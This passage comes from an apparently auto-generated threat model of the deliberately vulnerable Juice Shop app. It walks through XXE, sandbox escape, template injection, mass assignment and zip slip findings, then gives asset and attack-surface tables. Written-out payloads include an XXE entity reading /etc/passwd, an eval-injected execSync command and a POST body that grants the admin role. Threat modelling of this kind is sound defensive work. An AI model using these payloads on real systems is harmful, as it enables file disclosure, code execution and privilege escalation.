- Primary mitigation: ❶ [M-019](#m-019) (Add 'role' to excludeAttributes in the finale User resource, and force server-side default)

### 3.8 XXE

**Source:** 🔴 [F-010](#f-010) — `routes/fileUpload.ts:83`

Severity **Critical** ([CWE-611](https://cwe.mitre.org/data/definitions/611.html)). STRIDE: Tampering. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. At `fileUpload.ts:83`, uploaded XML is parsed with `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` - the `noent: true` option instructs libxmljs2 to resolve external entity references declared in the DOCTYPE.
2. An attacker submitting an XML file containing `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>&xxe;</root>` causes the server to read the local file and embed its contents in `xmlString`.
3. The resolved string is then appended verbatim into the HTTP 410 error response at line 87: `'B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 400)`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-020](#m-020) (Disable XML external entity (XXE) resolution) lands, 🔴 [F-010](#f-010) — XXE — `routes/fileUpload.ts:83` is exploitable at `routes/fileUpload.ts:83` (Critical-severity, [CWE-611](https://cwe.mitre.org/data/definitions/611.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-020](#m-020) (Disable XML external entity (XXE) resolution)

### 3.9 JavaScript Sandbox Escape

**Source:** 🔴 [F-011](#f-011) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. An attacker with a valid (or forged) B2B JWT submits a crafted JavaScript expression as `orderLinesData` that exploits the `notevil` AST-evaluator's known sandbox escape vectors.
2. Because `notevil` is not hardened against adversarial inputs, a sufficiently crafted payload can break out of the `vm.createContext` sandbox and execute arbitrary code as the Node\.js process.
3. This achieves full server-side RCE - reading environment secrets, pivoting to internal services, or installing persistence.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-021](#m-021) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-011](#f-011) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23` is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-021](#m-021) (Remove server-side evaluation of untrusted input)

### 3.10 Server-Side Template Injection

**Source:** 🔴 [F-012](#f-012) — `routes/userProfile.ts:62`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. `routes/userProfile.ts:62` executes `eval(code)` where `code = username.substring(2, username.length - 1)` when the username matches the pattern `/#\{(.*)\}/`.
2. A user sets their username to `#{process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()}` via the profile update endpoint, then GETs `/profile`.
3. The `eval()` call runs arbitrary Node\.js code in the server process context with full filesystem and network access.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-022](#m-022) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-012](#f-012) — Server-Side Template Injection — `routes/userProfile.ts:62` is exploitable at `routes/userProfile.ts:62` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-022](#m-022) (Remove server-side evaluation of untrusted input)

### 3.11 Mass Assignment Admin Role

**Source:** 🔴 [F-013](#f-013) — `server.ts:499`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

1. `server.ts:479-515` uses `finale-rest` to auto-generate CRUD endpoints for all models, including `POST /api/Users`.
2. The `autoModels` array excludes `password` and `totpSecret` from responses (the `exclude` list) but does not restrict which fields are accepted on creation.
3. An attacker sends `POST /api/Users` with `{"email":"attacker@x.com","password":"P@ss1","role":"admin"}` and the `finale-rest` handler maps `role` directly to the `UserModel.create()` call, creating an admin-role account.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-023](#m-023) (Restrict writable attributes on POST `/api/Users` to exclude t) lands, 🔴 [F-013](#f-013) — Mass Assignment Admin Role — `server.ts:499` is exploitable at `server.ts:499` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-023](#m-023) (Restrict writable attributes on POST `/api/Users` to exclude the role field)

### 3.12 Zip Slip Arbitrary File Write

**Source:** 🔴 [F-014](#f-014) — `routes/fileUpload.ts:45`

Severity **Critical** ([CWE-22](https://cwe.mitre.org/data/definitions/22.html)). STRIDE: Elevation of Privilege. See [§8 F-014](#f-014) for the full register row.

**Attack Steps**

1. In handleZipFileUpload (`fileUpload.ts:40-45`), entries from a ZIP archive are extracted and written to disk.
2. The check at line 44 evaluates `absolutePath.includes(path.resolve('.'))`.
3. While this check is designed to prevent writing outside the working directory, it is bypassed by the fact that `fs.createWriteStream` at line 45 receives the raw un-normalized `fileName` string: `fs.createWriteStream('uploads/complaints/' + fileName)`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-024](#m-024) (Constrain file paths to a safe base directory) lands, 🔴 [F-014](#f-014) — Zip Slip Arbitrary File Write — `routes/fileUpload.ts:45` is exploitable at `routes/fileUpload.ts:45` (Critical-severity, [CWE-22](https://cwe.mitre.org/data/definitions/22.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-024](#m-024) (Constrain file paths to a safe base directory)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="20%" style="width:20%"><col width="6%" style="width:6%"><col width="12%" style="width:12%"><col width="29%" style="width:29%"><col width="33%" style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">RSA Private Key (JWT signing key)</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>1024-bit RSA private key hardcoded at <code>lib/insecurity.ts:23</code>. Used to sign all JWTs. Committed to public GitHub repository — permanently compromised. Any party who has read the source code can forge valid admin tokens.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-003">F-003</a> — OAuth Derived Password from Email Enables Credential (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-005">F-005</a> — Hardcoded RSA Private Key Enables Universal JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-006">F-006</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Arbitrary File Write (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-022">F-022</a> — MD5 Password Hashing (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-028">F-028</a> — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (<code>routes/checkKeys.ts:10</code>)<br/>🔴 <a href="#f-030">F-030</a> — Hardcoded Deployment Email in Public Workflow (<code>ci.yml:342</code>)<br/>🟠 <a href="#f-032">F-032</a> — Third-party GitHub Action not pinned to commit SHA (<code>ci.yml:161</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>🟠 <a href="#f-036">F-036</a> — Weak MD5 Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-040">F-040</a> — Unauthenticated Exposure of Encryption Keys and JWT Material (<code>server.ts:278</code>)<br/>🟠 <a href="#f-041">F-041</a> — Unauthenticated Log File Disclosure (<code>routes/logfileServer.ts:14</code>)<br/>🟠 <a href="#f-049">F-049</a> — JWT Role Claims Not Validated Against Database at (<code>lib/insecurity.ts:156</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Encryption Keys Directory (<code>jwt.pub</code>, <code>premium.key</code>)</td><td style="white-space:nowrap">A-008</td><td>Restricted</td><td>The encryptionkeys/ directory served publicly via <code>keyServer.ts</code>. Contains <code>jwt.pub</code> (RSA public key) and <code>premium.key</code>. Serving these files publicly exposes the public key for offline JWT analysis.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-003">F-003</a> — OAuth Derived Password from Email Enables Credential (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-005">F-005</a> — Hardcoded RSA Private Key Enables Universal JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Arbitrary File Write (<code>routes/fileUpload.ts:45</code>)<br/>🔴 <a href="#f-028">F-028</a> — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (<code>routes/checkKeys.ts:10</code>)<br/>🔴 <a href="#f-030">F-030</a> — Hardcoded Deployment Email in Public Workflow (<code>ci.yml:342</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated FTP and Encryption Key Directory Listing (<code>server.ts:269</code>)<br/>🟠 <a href="#f-040">F-040</a> — Unauthenticated Exposure of Encryption Keys and JWT Material (<code>server.ts:278</code>)<br/>🟠 <a href="#f-041">F-041</a> — Unauthenticated Log File Disclosure (<code>routes/logfileServer.ts:14</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Credentials (email + <code>MD5</code> password hash)</td><td style="white-space:nowrap">A-001</td><td>Confidential</td><td>All registered user email addresses and <code>MD5</code>-hashed passwords stored in SQLite Users table. <code>MD5</code> provides no practical protection — precomputed rainbow tables can reverse most hashes in seconds. Also includes TOTP secrets for 2FA-enrolled users.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-003">F-003</a> — OAuth Derived Password from Email Enables Credential (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-004">F-004</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-008">F-008</a> — UNION SQL Injection (<code>routes/search.ts:23</code>)<br/>🟠 <a href="#f-015">F-015</a> — OAuth Implicit Flow Without State or PKCE (<code>login.component.ts:134</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS in Product Descriptions (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-021">F-021</a> — Reflected DOM XSS (<code>search-result.component.ts:170</code>)<br/>🟠 <a href="#f-022">F-022</a> — MD5 Password Hashing (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-036">F-036</a> — Weak MD5 Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-043">F-043</a> — No Rate Limiting on Login Endpoint (<code>server.ts:594</code>)<br/>🟠 <a href="#f-050">F-050</a> — Two-Factor Authentication Disable (<code>routes/2fa.ts:158</code>)<br/>🔴 <a href="#f-053">F-053</a> — DOM XSS (<code>last-login-ip.component.ts:39</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Active JWT Session Tokens</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td>6-hour <code>RS256</code>-signed JWTs stored in the client-side localStorage and tracked server-side in the authenticatedUsers in-memory map. Tokens encode user ID, role, and basket ID. Forgeable due to committed private key.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-001">F-001</a> — JWT Bearer Token Stored in localStorage (<code>login.component.ts:101</code>)<br/>🟠 <a href="#f-002">F-002</a> — JWT Stored in localStorage (<code>request.interceptor.ts:13</code>)<br/>🔴 <a href="#f-003">F-003</a> — OAuth Derived Password from Email Enables Credential (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-005">F-005</a> — Hardcoded RSA Private Key Enables Universal JWT Forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Arbitrary File Write (<code>routes/fileUpload.ts:45</code>)<br/>🔴 <a href="#f-028">F-028</a> — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (<code>routes/checkKeys.ts:10</code>)<br/>🔴 <a href="#f-030">F-030</a> — Hardcoded Deployment Email in Public Workflow (<code>ci.yml:342</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>🟠 <a href="#f-040">F-040</a> — Unauthenticated Exposure of Encryption Keys and JWT Material (<code>server.ts:278</code>)<br/>🟠 <a href="#f-041">F-041</a> — Unauthenticated Log File Disclosure (<code>routes/logfileServer.ts:14</code>)<br/>🟠 <a href="#f-049">F-049</a> — JWT Role Claims Not Validated Against Database at (<code>lib/insecurity.ts:156</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Customer Order History and Basket Contents</td><td style="white-space:nowrap">A-004</td><td>Confidential</td><td>SQLite tables for Orders, Baskets, BasketItems including order line items, prices, addresses, and payment card last-four digits. Subject to IDOR attacks via missing authorization on order-history and basket endpoints.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-004">F-004</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-007">F-007</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-008">F-008</a> — UNION SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS in Product Descriptions (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-021">F-021</a> — Reflected DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-030">F-030</a> — Hardcoded Deployment Email in Public Workflow (<code>ci.yml:342</code>)<br/>🔴 <a href="#f-051">F-051</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)<br/>🔴 <a href="#f-053">F-053</a> — DOM XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟡 <a href="#f-055">F-055</a> — Missing Structured Audit Log for B2B Order Execution (<code>routes/b2bOrder.ts:16</code>)<br/>🟠 <a href="#f-065">F-065</a> — Data disclosure (<code>challenges.yml:1381</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Profile Data (addresses, payment cards, memories)</td><td style="white-space:nowrap">A-005</td><td>Confidential</td><td>Personal data including delivery addresses, stored payment card references, profile images, and user-created memories. Accessible via IDOR-vulnerable address/payment APIs and served without proper authorization checks.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-004">F-004</a> — SQL Injection Authentication Bypass (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-007">F-007</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-008">F-008</a> — UNION SQL Injection (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-020">F-020</a> — Stored XSS in Product Descriptions (<code>search-result.component.ts:132</code>)<br/>🔴 <a href="#f-021">F-021</a> — Reflected DOM XSS (<code>search-result.component.ts:170</code>)<br/>🔴 <a href="#f-030">F-030</a> — Hardcoded Deployment Email in Public Workflow (<code>ci.yml:342</code>)<br/>🔴 <a href="#f-051">F-051</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)<br/>🔴 <a href="#f-053">F-053</a> — DOM XSS (<code>last-login-ip.component.ts:39</code>)<br/>🔴 <a href="#f-059">F-059</a> — Container images published without signing or provenance (<code>release.yml</code>)<br/>🟠 <a href="#f-065">F-065</a> — Data disclosure (<code>challenges.yml:1381</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Uploaded Files (profile images, XML, YAML submissions)</td><td style="white-space:nowrap">A-006</td><td>Internal</td><td>User-uploaded files stored in uploads/. Includes profile images (SSRF via URL upload), and XML/YAML files processed by the fileUpload handler with XXE enabled. Files served back without strict content-type enforcement.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-010">F-010</a> — XXE (<code>routes/fileUpload.ts:83</code>)<br/>🔴 <a href="#f-011">F-011</a> — JavaScript Sandbox Escape (<code>routes/b2bOrder.ts:23</code>)<br/>🔴 <a href="#f-012">F-012</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-014">F-014</a> — Zip Slip Arbitrary File Write (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-039">F-039</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🟠 <a href="#f-046">F-046</a> — XML/YAML Bomb DoS (<code>routes/fileUpload.ts:83</code>)<br/>🟡 <a href="#f-057">F-057</a> — No Audit Log on Unauthenticated File Upload or (<code>routes/fileUpload.ts:75</code>)<br/>🔴 <a href="#f-059">F-059</a> — Container images published without signing or provenance (<code>release.yml</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">FTP Directory (public download area)</td><td style="white-space:nowrap">A-007</td><td>Internal</td><td>The ftp/ directory served with serve-index directory listing at <code>/ftp</code>. Contains <code>legal.md</code> (removed), acquisition files, and a quarantine subdirectory. Path traversal in quarantine server may expose non-public files.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-014">F-014</a> — Zip Slip Arbitrary File Write (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated FTP and Encryption Key Directory Listing (<code>server.ts:269</code>)<br/>🟠 <a href="#f-040">F-040</a> — Unauthenticated Exposure of Encryption Keys and JWT Material (<code>server.ts:278</code>)<br/>🟠 <a href="#f-041">F-041</a> — Unauthenticated Log File Disclosure (<code>routes/logfileServer.ts:14</code>)<br/>🔴 <a href="#f-051">F-051</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Configuration and Version Information</td><td style="white-space:nowrap">A-009</td><td>Internal</td><td>Unauthenticated endpoints <code>/rest/admin/application-configuration</code> and <code>/rest/admin/application-version</code> expose detailed runtime configuration including feature flags, domain name, challenge status, and deployed version. Useful for targeted exploitation.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Access Logs</td><td style="white-space:nowrap">A-010</td><td>Internal</td><td>Morgan combined-format access logs written to logs/. Served via <code>logfileServer.ts</code> with user-supplied filename parameter. Path traversal in the log server could expose other filesystem contents.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-035">F-035</a> — Unauthenticated Public Exposure of Encryption Key Directory (<code>server.ts:277</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated FTP and Encryption Key Directory Listing (<code>server.ts:269</code>)<br/>🟠 <a href="#f-040">F-040</a> — Unauthenticated Exposure of Encryption Keys and JWT Material (<code>server.ts:278</code>)<br/>🟠 <a href="#f-041">F-041</a> — Unauthenticated Log File Disclosure (<code>routes/logfileServer.ts:14</code>)<br/>🔴 <a href="#f-051">F-051</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-052">F-052</a> — Unauthenticated Admin Endpoints (<code>server.ts:604</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Challenge Solution State</td><td style="white-space:nowrap">A-011</td><td>Internal</td><td>In-memory and database-backed challenge completion flags tracking which OWASP vulnerabilities have been solved. Can be manipulated via continue-code endpoints that lack authentication.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Prometheus Metrics Endpoint</td><td style="white-space:nowrap">A-012</td><td>Internal</td><td>Unauthenticated <code>/metrics</code> endpoint exposing Express application internals including request counts, response times, endpoint mapping, and runtime behavior - useful for reconnaissance.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (56)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-010">F-010</a> — XXE (<code>routes/fileUpload.ts:83</code>)<br/>🟡 <a href="#f-057">F-057</a> — No Audit Log on Unauthenticated File Upload or (<code>routes/fileUpload.ts:75</code>)<br/>🔴 <a href="#f-018">F-018</a> — Missing Authentication on <code>/file-upload</code> Multipart Upload Endpoint (<code>server.ts:309</code>)<br/>handler: <code>server.ts:309</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-012">F-012</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-039">F-039</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:664</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/ftp/</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-014">F-014</a> — Zip Slip Arbitrary File Write (<code>routes/fileUpload.ts:45</code>)<br/>🟠 <a href="#f-038">F-038</a> — Unauthenticated FTP and Encryption Key Directory Listing (<code>server.ts:269</code>)<br/>Directory listing enabled via serve-index — unauthenticated; exposes legal, acquisition, and other internal documents</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-012">F-012</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-039">F-039</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:663</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-008">F-008</a> — UNION SQL Injection (<code>routes/search.ts:23</code>)<br/>SQL injection via criteria param — unauthenticated; UNION-based data exfiltration possible</td></tr>
